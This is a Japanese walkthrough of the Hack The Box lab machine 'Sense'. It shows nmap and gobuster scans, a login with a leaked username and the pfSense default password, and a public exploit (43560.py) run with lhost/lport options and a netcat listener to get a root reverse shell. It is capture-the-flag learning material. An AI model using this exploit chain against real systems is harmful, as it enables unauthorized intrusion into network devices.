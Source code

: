 # はじめに
Hack The Boxの攻略などを自分用にまとめたものです。
主に記録用として記しています。
現在のランクはHackerです。
間違っていることも多いかと思いますが、よろしくお願いします。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
チートシートも公開しておりますが知識がまだまだ不足しているため、学習経過とともに身につけた内容などを随時更新していきます。
GitHub(ペネトレーションテスト用チートシート):
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# Sense
![スクリーンショット 2020-07-29 17.27.12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1c9338dc-dadd-92b5-d7d3-48dace051a28.png)

HackTheBox公式より
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.

Sense は、完了までに多くのステップを必要としませんが、一般に公開されている概念実証済みのエクスプロイトは非常に信頼性が低いため、一部の人にとっては難しいものとなる可能性があります。アクセスを成功させるためには、同じ脆弱性を利用した別の方法が必要です。

# スキャン
Sense(10.10.10.60)に対して、スキャンを行います。  
まずnmapからスキャンを開始します。
## nmap 

```
nmap -sC -sV -oN sense.nmap 10.10.10.60
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力

```
# Nmap 7.80 scan initiated Tue Jul 28 04:01:20 2020 as: nmap -sC -sV -oN sense.nmap 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 28 04:03:20 2020 -- 1 IP address (1 host up) scanned in 120.06 seconds
```

この結果から、80，443番ポートにおいてhttpdが動いていることが分かります。
![スクリーンショット 2020-07-29 17.37.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d3c2af5c-43cb-504b-bbf6-1f94dd961927.png)
特に他に得られる情報がないので、gobusterを使ってディレクトリをスキャンします。

## gobuster
```
kali@kali:~/htb/Sense$ gobuster dir -t 25 -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -o sense.gobuster -k
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/28 04:08:28 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2020/07/28 06:13:08 Finished
===============================================================
```

様々なものを検出することができました。  
ここから手掛かりになりそうなものを集めていきましょう。  
まずは、/changelog.txtです。changelog.txtの内容を確認すると、脆弱性が残っていることが記載されていることが分かります。
![スクリーンショット 2020-07-29 16.50.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d273ee5c-d0bc-3e71-16ab-6c5f5b67c677.png)
![スクリーンショット 2020-07-29 16.51.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9cd13d25-2467-a575-dac6-52c876e8178c.png)

次に、system-users.txtです。
これを見ると、先ほどのログイン画面で使えそうな認証情報が書かれています。
![スクリーンショット 2020-07-29 16.53.55.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d7a9cc9d-643f-c06b-a792-11b5acdf84d6.png)
このpasswordのcompany defaultsというのはsenseのデフォルトパスワードのことだと推測し、Senseについて検索を行います。
![スクリーンショット 2020-07-29 17.39.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/5cc5eb0f-5716-45df-0302-a1f2db789cd8.png)
この情報を使うとログイン可能になります。
注意点として先ほど見つけた認証情報のusernameであるRohitをrohitと入力しなければログインすることができません。

ログインするとこのようになります。
![スクリーンショット 2020-07-29 17.42.12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b6de8c7f-3ce9-1e3a-95d0-0251d82c4ce8.png)
この情報からpfsenseのバージョンが2.1.3であることが分かります。


# 侵入
searchsploitを使って、pfsense 2.1.3について調べると以下の脆弱性情報が見つかります。
今回このコードを使用してきましょう。
![スクリーンショット 2020-07-29 17.03.41.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e95ef333-c3d9-77a7-1cf8-f5f861a70822.png)
コードを確認すると、
rhost,lhost,lport,username,passwordが必要なようです。  
全て指定して、netcatをリッスンさせてからエクスプロイトを実行します。

```
kali@kali:~/htb/Sense$ mv 43560.py pfsense_exploit.py
kali@kali:~/htb/Sense$ python3 pfsense_exploit.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 4444 --username rohit --password pfsense
```
![スクリーンショット 2020-07-29 17.20.16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/45076019-937e-372b-7b0b-ea29dbaf7df9.png)
root権限を取得しました。
お疲れ様でした。